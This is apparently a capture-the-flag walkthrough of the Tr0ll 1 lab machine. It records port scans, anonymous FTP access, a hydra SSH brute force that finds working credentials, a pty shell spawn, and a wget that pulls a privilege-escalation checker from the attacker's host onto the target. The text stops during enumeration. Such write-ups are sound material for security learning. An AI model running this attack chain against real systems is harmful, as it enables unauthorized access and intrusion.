


Tr0ll: 1
Service discovery:
First, I fired up HaGashash in order to gain some information about which host to attack and what interesting services run there. (https://github.com/Gandosha/HaGashash).
[GandoPC ~]# go run go/src/github.com/Gandosha/HaGashash/main.go -interface=enp0s3 -project=VulnOsV2 -subnet=true <-=|HaGashash by Gandosha|=-> [+] nmap executable is in '/usr/bin/nmap' [+] ifconfig executable is in '/usr/bin/ifconfig' [!] Dependencies check is completed successfully. [!] Starting to scan your subnet. [+] Alive hosts in 192.168.43.0/24 are: 192.168.43.1 192.168.43.2 192.168.43.6 192.168.43.4 [+] Directory created at: /HaGashash_Projects/Tr0ll/192.168.43.1. [!] Starting to scan 192.168.43.1 for TCP interesting stuff. [!] Starting to scan 192.168.43.1 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/Tr0ll/192.168.43.2. [!] Starting to scan 192.168.43.2 for TCP interesting stuff. [!] Starting to scan 192.168.43.2 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/Tr0ll/192.168.43.6. [!] Starting to scan 192.168.43.6 for TCP interesting stuff. [!] Starting to scan 192.168.43.6 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/Tr0ll/192.168.43.4. [!] Starting to scan 192.168.43.4 for UDP interesting stuff. [!] Starting to scan 192.168.43.4 for TCP interesting stuff. [+] Nmap's TCP script scanning on 192.168.43.4 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.4 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.6 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.1 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.2 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.6 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.2 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.1 is completed successfully. [+] Summary file for 192.168.43.4 is ready. [+] Summary file for 192.168.43.6 is ready. [+] Summary file for 192.168.43.2 is ready. [+] Summary file for 192.168.43.1 is ready. # Nmap 7.70 scan initiated Sat Oct 27 22:07:04 2018 as: nmap -sS -p- -A -T4 -Pn -vv -oN /HaGashash_Projects/Tr0ll/192.168.43.6/nmap_TCP_scan_output 192.168.43.6 mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers Nmap scan report for 192.168.43.6 Host is up, received arp-response (0.0015s latency). Scanned at 2018-10-27 22:07:06 IDT for 21s Not shown: 65532 closed ports Reason: 65532 resets PORT STATE SERVICE REASON VERSION 21/tcp open ftp syn-ack ttl 64 vsftpd 3.0.2 | ftp-anon: Anonymous FTP login allowed (FTP code 230) |_-rwxrwxrwx 1 1000 0 8068 Aug 10 2014 lol.pcap [NSE: writeable] | ftp-syst: | STAT: | FTP server status: | Connected to 192.168.43.4 | Logged in as ftp | TYPE: ASCII | No session bandwidth limit | Session timeout in seconds is 600 | Control connection is plain text | Data connections will be plain text | At session startup, client count was 4 | vsFTPd 3.0.2 - secure, fast, stable |_End of status 22/tcp open ssh syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA) | ssh-dss AAAAB3NzaC1kc3MAAACBAPvm+E+qXyRODHZMbgiT5buFG3ibhNm4hBA3oWrF0kIpePfc0uQZIPUpUZG6EEGQjbeXhyMFPQu4P9s6QwJJ4f31K+U+dLmMfOJNaIVdx9MpX04xuy7mxDp7h9XDJPiIcgLvMYItY52kgxZAuFbjsYdyBBT48Umyd6hhCpwq1/0rAAAAFQDFm+k8NFmBftv1yK4U7dkg8ERgVwAAAIEAzzz/FseGlWcEZrnlJSMoyKRa/Dph5uIYpYqLu1OfZLhPKnELg9l5w6Gct9D+5SrFnm5lX6IcHWhG/4ionh9qQO/IJtuuSia9nVHruLvYipqiyULQ/HO69Znv7hGmsWAsQa3MlX7nyo/0MSgmVIJraSUBBNBzLCgU5oLn0xxNirwAAACARTIMgZBYWhbs2aZeqfq4HjUzH1nUB+/bvyJ4cmbc3s8VfZhXRUggjDiz3f3spROVZEKwBKLUSM/lGIDd9LfUjtjdoKdYN1HDEUwiKl2OlbmnhNX88NCF1QN66XTYKq0CThJYinBMIZi8FiW4DYZ9QT+9SZDib6hEvab/E7YJ9zY= | 2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA) | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDi1MPWZMtN3eywmC1nj8ZOZsCv7j78Do5ebJiFEhwXDszJtWgzp/Tb9H/VidiUAdlnzNNZoq6KSBqETX1SxaHyl+d28gHR0A7Y1U0BtkMjTQsqo+Ocpc1cUSdAZTGz8i7t/segL8ouF7agOjr0x97R5Hw1BSYuK3u51qgCothfrKJFrtt4mPryqx6Q2+ZV5h3dOaMExprApTMCjj2WtKwJn5xZsmKJ5c8sVnsbQaNKo1M7IH2WJkV89jO90EMZ6XJsTlbobWN8pASn7N05rjvI/njinfI8cUq9HdSjYjaM4Lq4ZpReNXQ3bf7da0nRRGv2tSaVGU7OhcpNYIpo7Xcv | 256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA) | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE+5luyzp+tLU9TK+5Avd2IA+8LEBFPxjUavwPVbeLdBhgF/pTThnzpQ2hEhcUzWq2CfQPkg6q4H4F9k9Tpeg+k= | 256 b2:8b:e2:46:5c:ef:fd:dc:72:f7:10:7e:04:5f:25:85 (ED25519) |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIJZC+1mSO4wMlWhDBBwmHKkCob1KrCwkoqIvi9Bw+44 80/tcp open http syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu)) | http-methods: |_ Supported Methods: GET HEAD POST OPTIONS | http-robots.txt: 1 disallowed entry |_/secret |_http-server-header: Apache/2.4.7 (Ubuntu) |_http-title: Site doesn't have a title (text/html). MAC Address: 08:00:27:3A:65:FF (Oracle VirtualBox virtual NIC) Device type: general purpose Running: Linux 3.X|4.X OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 OS details: Linux 3.2 - 4.9 TCP/IP fingerprint: OS:SCAN(V=7.70%E=4%D=10/27%OT=21%CT=1%CU=%PV=Y%DS=1%DC=D%G=N%M=080027%TM=5B OS:D4B76F%P=x86_64-unknown-linux-gnu)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=I%II= OS:I%TS=8)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7% OS:O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W OS:6=7120)ECN(R=Y%DF=Y%TG=40%W=7210%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%TG=40% OS:S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O= OS:%RD=0%Q=)T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%TG=4 OS:0%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0 OS:%Q=)U1(R=N)IE(R=Y%DFI=N%TG=40%CD=S) Uptime guess: 199.638 days (since Wed Apr 11 06:49:26 2018) Network Distance: 1 hop TCP Sequence Prediction: Difficulty=262 (Good luck!) IP ID Sequence Generation: All zeros Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel TRACEROUTE HOP RTT ADDRESS 1 1.48 ms 192.168.43.6 Read data files from: /usr/bin/../share/nmap OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Sat Oct 27 22:07:27 2018 -- 1 IP address (1 host up) scanned in 24.85 seconds
Port 21 check:
According to Nmap's output, it is possible to access port 21 with anonymous:anonymous credentials:
[GandoPC 192.168.43.6]# ftp 192.168.43.6 Connected to 192.168.43.6. 220 (vsFTPd 3.0.2) Name (192.168.43.6:root): anonymous 331 Please specify the password. Password: 230 Login successful. Remote system type is UNIX. Using binary mode to transfer files. ftp> ls 200 PORT command successful. Consider using PASV. 150 Here comes the directory listing. -rwxrwxrwx 1 1000 0 8068 Aug 10 2014 lol.pcap 226 Directory send OK. ftp> get lol.pcap 200 PORT command successful. Consider using PASV. 150 Opening BINARY mode data connection for lol.pcap (8068 bytes). 226 Transfer complete. 8068 bytes received in 0.0112 seconds (705 kbytes/s) ftp> quit 221 Goodbye.
A .pcap file is found.
I had to investigate this file in order to find a clue for the next step.



sup3rs3cr3tdirlol is the clue.
Port 80 check:
Attempt to access via http port 80:
Spidering and fuzzing revealed another path on the web server:
===================================================== Gobuster v2.0.1 OJ Reeves (@TheColonial) ===================================================== [+] Mode : dir [+] Url/Domain : http://192.168.43.6/ [+] Threads : 10 [+] Wordlist : /home/gandosha/Desktop/SecLists/Discovery/Web-Content/raft-large.txt [+] Status codes : 200,204,301,302,307,403 [+] Timeout : 10s ===================================================== ===================================================== /secret (Status: 301) /server-status (Status: 403) /index.html (Status: 200) /.htaccess (Status: 403) /robots.txt (Status: 200) /. (Status: 200) /.html (Status: 403) /.htpasswd (Status: 403) /.htm (Status: 403) /.htpasswds (Status: 403) /.htgroup (Status: 403) /.htaccess.bak (Status: 403) /.htuser (Status: 403) /.ht (Status: 403) /.htc (Status: 403) /.htacess (Status: 403) /.htaccess.old (Status: 403) /.html (Status: 403) /.htm (Status: 403) /. (Status: 200) /.htaccess (Status: 403) /secret (Status: 301) /.htc (Status: 403) /.html_var_DE (Status: 403) /server-status (Status: 403) /.htpasswd (Status: 403) /.html. (Status: 403) /.html.html (Status: 403) /.htpasswds (Status: 403) /.htm. (Status: 403) /.htmll (Status: 403) /.html.old (Status: 403) /.ht (Status: 403) /.html.bak (Status: 403) /.htm.htm (Status: 403) /.hta (Status: 403) /.htgroup (Status: 403) /.html1 (Status: 403) /.html.printable (Status: 403) /.html.LCK (Status: 403) /.htm.LCK (Status: 403) /.htaccess.bak (Status: 403) /.htmls (Status: 403) /.html.php (Status: 403) /.htx (Status: 403) /.htm2 (Status: 403) /.htlm (Status: 403) /.htuser (Status: 403) /.html- (Status: 403) /.htacess (Status: 403) /.htm.html (Status: 403) /.htm.d (Status: 403) /.htm.old (Status: 403) /.html.orig (Status: 403) /.html-1 (Status: 403) /.html_ (Status: 403) /.html_files (Status: 403) /.htmlpar (Status: 403) /.hts (Status: 403) /.html.sav (Status: 403) /.htmlprint (Status: 403) /.htaccess.old (Status: 403) /.htm.rc (Status: 403) /.htm.bak (Status: 403) /.htm3 (Status: 403) /.htm7 (Status: 403) /.htm8 (Status: 403) /.html-- (Status: 403) /.html-0 (Status: 403) /.html-c (Status: 403) /.html-p (Status: 403) /.html-old (Status: 403) /.html.inc (Status: 403) /.html.pdf (Status: 403) /.html.start (Status: 403) /.htm5 (Status: 403) /.html4 (Status: 403) /.html5 (Status: 403) /.htmlBAK (Status: 403) /.htmlDolmetschen (Status: 403) /.html_old (Status: 403) /.htmla (Status: 403) /.htmlc (Status: 403) /.html.images (Status: 403) /.html.txt (Status: 403) /.html-2 (Status: 403) /.htmlq (Status: 403) /.htmlfeed (Status: 403) /.htmlu (Status: 403) /.html.htm (Status: 403) /.htn (Status: 403) /.html.none (Status: 403) /.htm_ (Status: 403) /.html7 (Status: 403) ===================================================== =====================================================
/secret:
Fuzzing this directory did not help much:
===================================================== Gobuster v2.0.1 OJ Reeves (@TheColonial) ===================================================== [+] Mode : dir [+] Url/Domain : http://192.168.43.6/secret/ [+] Threads : 10 [+] Wordlist : /home/gandosha/Desktop/SecLists/Discovery/Web-Content/raft-large.txt [+] Status codes : 200,204,301,302,307,403 [+] Timeout : 10s ===================================================== ===================================================== /index.html (Status: 200) /.htaccess (Status: 403) /. (Status: 200) /.html (Status: 403) /.htpasswd (Status: 403) /.htm (Status: 403) /.htpasswds (Status: 403) /.htgroup (Status: 403) /.htaccess.bak (Status: 403) /.htuser (Status: 403) /.ht (Status: 403) /.htc (Status: 403) /.htaccess.old (Status: 403) /.htacess (Status: 403) /.html (Status: 403) /.htm (Status: 403) /. (Status: 200) /.htaccess (Status: 403) /.htc (Status: 403) /.html_var_DE (Status: 403) /.htpasswd (Status: 403) /.html. (Status: 403) /.html.html (Status: 403) /.htpasswds (Status: 403) /.htm. (Status: 403) /.htmll (Status: 403) /.html.old (Status: 403) /.ht (Status: 403) /.html.bak (Status: 403) /.htm.htm (Status: 403) /.hta (Status: 403) /.htgroup (Status: 403) /.html1 (Status: 403) /.html.printable (Status: 403) /.html.LCK (Status: 403) /.htm.LCK (Status: 403) /.htaccess.bak (Status: 403) /.html.php (Status: 403) /.htmls (Status: 403) /.htx (Status: 403) /.html- (Status: 403) /.htuser (Status: 403) /.htlm (Status: 403) /.htm2 (Status: 403) /.htacess (Status: 403) /.htm.d (Status: 403) /.html-1 (Status: 403) /.htm.html (Status: 403) /.htm.old (Status: 403) /.html.sav (Status: 403) /.html_ (Status: 403) /.html.orig (Status: 403) /.htmlpar (Status: 403) /.htmlprint (Status: 403) /.hts (Status: 403) /.html_files (Status: 403) /.htaccess.old (Status: 403) /.htm.rc (Status: 403) /.htm.bak (Status: 403) /.htm3 (Status: 403) /.htm7 (Status: 403) /.html-- (Status: 403) /.html-0 (Status: 403) /.html-c (Status: 403) /.html-p (Status: 403) /.html.htm (Status: 403) /.html.images (Status: 403) /.html.inc (Status: 403) /.html.none (Status: 403) /.html.pdf (Status: 403) /.html.start (Status: 403) /.html.txt (Status: 403) /.htm5 (Status: 403) /.html7 (Status: 403) /.html4 (Status: 403) /.htm_ (Status: 403) /.html-old (Status: 403) /.html-2 (Status: 403) /.htm8 (Status: 403) /.htmlBAK (Status: 403) /.html_old (Status: 403) /.htmla (Status: 403) /.htmlDolmetschen (Status: 403) /.htmlc (Status: 403) /.html5 (Status: 403) /.htmlfeed (Status: 403) /.htmlq (Status: 403) /.htn (Status: 403) /.htmlu (Status: 403) ===================================================== =====================================================
But the clue from the .pcap file, helped me a lot:
I downloaded roflmao and I started to search for some strings inside:
[GandoPC 192.168.43.6]# wget http://192.168.43.6/sup3rs3cr3tdirlol/roflmao --2018-10-28 19:51:39-- http://192.168.43.6/sup3rs3cr3tdirlol/roflmao Connecting to 192.168.43.6:80... connected. HTTP request sent, awaiting response... 200 OK Length: 7296 (7.1K) Saving to: ‘roflmao’ roflmao 100%[=====================================================================================================>] 7.12K --.-KB/s in 0s 2018-10-28 19:51:39 (969 MB/s) - ‘roflmao’ saved [7296/7296] [GandoPC 192.168.43.6]# file roflmao roflmao: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=5e14420eaa59e599c2f508490483d959f3d2cf4f, not stripped [GandoPC 192.168.43.6]# strings roflmao /lib/ld-linux.so.2 libc.so.6 _IO_stdin_used printf __libc_start_main __gmon_start__ GLIBC_2.0 PTRh [^_] Find address 0x0856BF to proceed ;*2$" GCC: (Ubuntu 4.8.2-19ubuntu1) 4.8.2 .symtab .strtab .shstrtab .interp .note.ABI-tag .note.gnu.build-id .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rel.dyn .rel.plt .init .text .fini .rodata .eh_frame_hdr .eh_frame .init_array .fini_array .jcr .dynamic .got .got.plt .data .bss .comment crtstuff.c __JCR_LIST__ deregister_tm_clones register_tm_clones __do_global_dtors_aux completed.6590 __do_global_dtors_aux_fini_array_entry frame_dummy __frame_dummy_init_array_entry roflmao.c __FRAME_END__ __JCR_END__ __init_array_end _DYNAMIC __init_array_start _GLOBAL_OFFSET_TABLE_ __libc_csu_fini _ITM_deregisterTMCloneTable __x86.get_pc_thunk.bx data_start printf@@GLIBC_2.0 _edata _fini __data_start __gmon_start__ __dso_handle _IO_stdin_used __libc_start_main@@GLIBC_2.0 __libc_csu_init _end _start _fp_hw __bss_start main _Jv_RegisterClasses __TMC_END__ _ITM_registerTMCloneTable _init
An instruction has found ("Find address 0x0856BF to proceed").

User names file is found:
Password file is found:
I edited which_one_lol file in order to prepare it for a brute force attack on the SSH service:
Brute force attack on SSH service:
I used which_one_lol.txt and Pass.txt in order to find the correct credentials for any user in the system.
On the first attempt I tried to brute force with the password inside Pass.txt file ("-P Pass.txt"), but nothing came out.
Later, it worked out when I used Pass.txt string as the password:
[gandosha@GandoPC 192.168.43.6]$ hydra -L which_one_lol.txt -p Pass.txt -v 192.168.43.6 ssh -t 4 Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. Hydra (http://www.thc.org/thc-hydra) starting at 2018-10-28 20:18:50 [DATA] max 4 tasks per 1 server, overall 4 tasks, 10 login tries (l:10/p:1), ~3 tries per task [DATA] attacking ssh://192.168.43.6:22/ [VERBOSE] Resolving addresses ... [VERBOSE] resolving done [INFO] Testing if password authentication is supported by ssh://maleus@192.168.43.6:22 [INFO] Successful, password authentication is supported by ssh://192.168.43.6:22 [STATUS] attack finished for 192.168.43.6 (waiting for children to complete tests) [22][ssh] host: 192.168.43.6 login: overflow password: Pass.txt 1 of 1 target successfully completed, 1 valid password found Hydra (http://www.thc.org/thc-hydra) finished at 2018-10-28 20:18:57
Privilege escalation:
I was connected to overflow user via SSH and I started to enumerate the system:
[gandosha@GandoPC 192.168.43.6]$ ssh overflow@192.168.43.6
The authenticity of host '192.168.43.6 (192.168.43.6)' can't be established.
ECDSA key fingerprint is SHA256:aifInt5MUU8pBMSjpS188RmsVqEwF+rj4na7UyLYCD0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.43.6' (ECDSA) to the list of known hosts.
overflow@192.168.43.6's password:
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)
* Documentation: https://help.ubuntu.com/
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
Last login: Wed Aug 13 01:14:09 2014 from 10.0.0.12
Could not chdir to home directory /home/overflow: No such file or directory
$ python -c 'import pty;pty.spawn("/bin/bash")'
overflow@troll:/$ cd
bash: cd: /home/overflow: No such file or directory
overflow@troll:/$ ls -aul
total 80
drwxr-xr-x 21 root root 4096 Oct 28 13:49 .
drwxr-xr-x 21 root root 4096 Oct 28 13:49 ..
drwxr-xr-x 2 root root 4096 Aug 13 2014 bin
drwxr-xr-x 3 root root 4096 Aug 13 2014 boot
drwxr-xr-x 14 root root 4040 Oct 28 10:12 dev
drwxr-xr-x 86 root root 4096 Aug 13 2014 etc
drwxr-xr-x 3 root root 4096 Aug 13 2014 home
lrwxrwxrwx 1 root root 33 Aug 9 2014 initrd.img -> boot/initrd.img-3.13.0-32-generic
drwxr-xr-x 22 root root 4096 Oct 27 12:05 lib
drwx------ 2 root root 16384 Aug 9 2014 lost+found
drwxr-xr-x 4 root root 4096 Aug 13 2014 media
drwxr-xr-x 3 root root 4096 Aug 13 2014 mnt
drwxr-xr-x 2 root root 4096 Aug 13 2014 opt
dr-xr-xr-x 82 root root 0 Oct 28 10:12 proc
drwx------ 3 root root 4096 Aug 13 2014 root
drwxr-xr-x 19 root root 600 Oct 28 10:12 run
drwxr-xr-x 2 root root 4096 Aug 13 2014 sbin
drwxr-xr-x 3 root root 4096 Aug 13 2014 srv
dr-xr-xr-x 13 root root 0 Oct 28 10:12 sys
drwxrwxrwt 2 root root 4096 Oct 28 13:48 tmp
drwxr-xr-x 10 root root 4096 Aug 13 2014 usr
drwxr-xr-x 12 root root 4096 Aug 13 2014 var
lrwxrwxrwx 1 root root 30 Aug 9 2014 vmlinuz -> boot/vmlinuz-3.13.0-32-generic
overflow@troll:/$ cd /home;ls -aul
total 12
drwxr-xr-x 3 root root 4096 Oct 28 13:49 .
drwxr-xr-x 21 root root 4096 Oct 28 13:49 ..
drwxr-xr-x 3 troll troll 4096 Aug 13 2014 troll
overflow@troll:/home$ file troll
troll: directory
Broadcast Message from root@trol
(somewhere) at 13:50 ...
TIMES UP LOL!
Connection to 192.168.43.6 closed by remote host.
Connection to 192.168.43.6 closed.
A few minutes later, my connection terminated by root.
On the second attempt, I moved linuxprivchecker.py to the target host and I invoked it:
overflow@troll:/$ cd /tmp;wget http://192.168.43.3/Tools/linuxprivchecker/linuxprivchecker.py
--2018-10-28 14:08:31-- http://192.168.43.3/Tools/linuxprivchecker/linuxprivchecker.py
Connecting to 192.168.43.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 25304 (25K)
Saving to: ‘linuxprivchecker.py’
100%[======================================>] 25,304 --.-K/s in 0.002s
2018-10-28 14:08:31 (10.8 MB/s) - ‘linuxprivchecker.py’ saved [25304/25304]
overflow@troll:/tmp$
overflow@troll:/tmp$ chmod +x linuxprivchecker.py
overflow@troll:/tmp$ python ./linuxprivchecker.py
=================================================================================================
LINUX PRIVILEGE ESCALATION CHECKER
=================================================================================================
[*] GETTING BASIC SYSTEM INFO...
[+] Kernel
Linux version 3.13.0-32-generic (buildd@roseapple) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014
[+] Hostname
troll
[+] Operating System
Ubuntu 14.04.1 LTS \n \l
[*] GETTING NETWORKING INFO...
[+] Interfaces
eth0 Link encap:Ethernet HWaddr 08:00:27:3a:65:ff
inet addr:192.168.43.6 Bcast:192.168.43.255 Mask:255.255.255.0
inet6 addr: fe80::a00:27ff:fe3a:65ff/64 Scope:Link
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:2886 errors:0 dropped:0 overruns:0 frame:0
TX packets:2096 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:352366 (352.3 KB) TX bytes:477744 (477.7 KB)
lo Link encap:Local Loopback
inet addr:127.0.0.1 Mask:255.0.0.0
inet6 addr: ::1/128 Scope:Host
UP LOOPBACK RUNNING MTU:65536 Metric:1
RX packets:248 errors:0 dropped:0 overruns:0 frame:0
TX packets:248 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:0
RX bytes:20200 (20.2 KB) TX bytes:20200 (20.2 KB)
[+] Netstat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:21 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 192.168.43.6:22 192.168.43.3:50124 ESTABLISHED -
tcp6 0 0 :::22 :::* LISTEN -
tcp6 0 0 :::80 :::* LISTEN -
udp 0 0 0.0.0.0:16123 0.0.0.0:* -
udp 0 0 0.0.0.0:68 0.0.0.0:* -
udp6 0 0 :::57596 :::* -
[+] Route
Kernel IP routing table
Destination Gateway Genmask Flags Metric Ref Use Iface
192.168.43.0 * 255.255.255.0 U 0 0 0 eth0
[*] GETTING FILESYSTEM INFO...
[+] Mount results
/dev/sda1 on / type ext4 (rw,errors=remount-ro)
proc on /proc type proc (rw,noexec,nosuid,nodev)
sysfs on /sys type sysfs (rw,noexec,nosuid,nodev)
none on /sys/fs/cgroup type tmpfs (rw)
none on /sys/fs/fuse/connections type fusectl (rw)
none on /sys/kernel/debug type debugfs (rw)
none on /sys/kernel/security type securityfs (rw)
udev on /dev type devtmpfs (rw,mode=0755)
devpts on /dev/pts type devpts (rw,noexec,nosuid,gid=5,mode=0620)
tmpfs on /run type tmpfs (rw,noexec,nosuid,size=10%,mode=0755)
none on /run/lock type tmpfs (rw,noexec,nosuid,nodev,size=5242880)
none on /run/shm type tmpfs (rw,nosuid,nodev)
none on /run/user type tmpfs (rw,noexec,nosuid,nodev,size=104857600,mode=0755)
none on /sys/fs/pstore type pstore (rw)
systemd on /sys/fs/cgroup/systemd type cgroup (rw,noexec,nosuid,nodev,none,name=systemd)
[+] fstab entries
# /etc/fstab: static file system information.
#
# Use 'blkid' to print the universally unique identifier for a
# device; this may be used with UUID= as a more robust way to name devices
# that works even if disks are added and removed. See fstab(5).
#
#
# / was on /dev/sda1 during installation
UUID=5ea1589a-303f-445d-b778-1f26a563bba1 / ext4 errors=remount-ro 0 1
# swap was on /dev/sda5 during installation
UUID=7b2fd829-c355-4e27-abc7-cc46bbda1f1e none swap sw 0 0
/dev/fd0 /media/floppy0 auto rw,user,noauto,exec,utf8 0 0
[+] Scheduled cron jobs
-rw------- 1 root root 722 Feb 8 2013 /etc/crontab
/etc/cron.d:
total 12
drwxr-xr-x 2 root root 4096 Aug 9 2014 .
drwxr-xr-x 86 root root 4096 Oct 28 10:12 ..
-rw-r--r-- 1 root root 102 Feb 8 2013 .placeholder
/etc/cron.daily:
total 68
drwxr-xr-x 2 root root 4096 Aug 9 2014 .
drwxr-xr-x 86 root root 4096 Oct 28 10:12 ..
-rwxr-xr-x 1 root root 625 Jul 22 2014 apache2
-rwxr-xr-x 1 root root 15481 Apr 10 2014 apt
-rwxr-xr-x 1 root root 314 Feb 17 2014 aptitude
-rwxr-xr-x 1 root root 355 Jun 4 2013 bsdmainutils
-rwxr-xr-x 1 root root 256 Mar 7 2014 dpkg
-rwxr-xr-x 1 root root 372 Jan 22 2014 logrotate
-rwxr-xr-x 1 root root 1261 Apr 10 2014 man-db
-rwxr-xr-x 1 root root 435 Jun 20 2013 mlocate
-rwxr-xr-x 1 root root 249 Feb 16 2014 passwd
-rw-r--r-- 1 root root 102 Feb 8 2013 .placeholder
-rwxr-xr-x 1 root root 2417 May 13 2013 popularity-contest
-rwxr-xr-x 1 root root 328 Jul 18 2014 upstart
/etc/cron.hourly:
total 12
drwxr-xr-x 2 root root 4096 Aug 10 2014 .
drwxr-xr-x 86 root root 4096 Oct 28 10:12 ..
-rw-r--r-- 1 root root 102 Feb 8 2013 .placeholder
/etc/cron.monthly:
total 12
drwxr-xr-x 2 root root 4096 Aug 9 2014 .
drwxr-xr-x 86 root root 4096 Oct 28 10:12 ..
-rw-r--r-- 1 root root 102 Feb 8 2013 .placeholder
/etc/cron.weekly:
total 24
drwxr-xr-x 2 root root 4096 Aug 9 2014 .
drwxr-xr-x 86 root root 4096 Oct 28 10:12 ..
-rwxr-xr-x 1 root root 730 Feb 23 2014 apt-xapian-index
